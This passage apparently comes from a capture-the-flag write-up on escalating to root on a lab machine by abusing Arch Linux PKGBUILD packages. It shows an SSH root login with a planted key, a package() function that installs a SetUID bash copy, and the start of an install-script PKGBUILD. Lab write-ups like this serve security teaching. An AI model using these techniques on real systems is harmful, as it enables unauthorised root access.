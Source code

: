 ```

```

Now the key is there, and I can SSH as root:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@10.10.11.43
Last login: Mon Mar 24 21:32:43 2025 from 10.10.14.6
[root@blockblock ~]#

```

There’s a bunch of other ways I could abuse this. Other files to overwrite. Or I could include a copy of `bash` and set it as SetUID/SetGID:

```

package() {
    install -Dm6777 -o root -g root "/bin/bash" "$pkgdir//var/tmp/0xdf"
}

```

I’m using `/var/tmp` because both `/dev/shm` and `/tmp` are mounted with `nosuid`:

```

[paul@blockblock oxdf]$ mount | grep -e '/dev/shm' -e '/tmp'
tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev,inode64)
tmpfs on /tmp type tmpfs (rw,nosuid,nodev,nr_inodes=1048576,inode64)

```

#### install Script

An alternative way to get execution during install is using install scripts with the `install` keyword in the `PKGBUILD` file. In a new directory, I’ll create a new `PKGBUILD` file:

```

pkgname=oxdf-install
pkgver=0.0.1
pkgrel=1
pkgdesc="privesc"
url=https://0xdf.gitlab.io
arch=("x86_64")
license=("GPL2")
install=shell.sh

build() {
    echo "building oxdf for takeover"
}

package() {
    echo "hello from the package function"
}

```

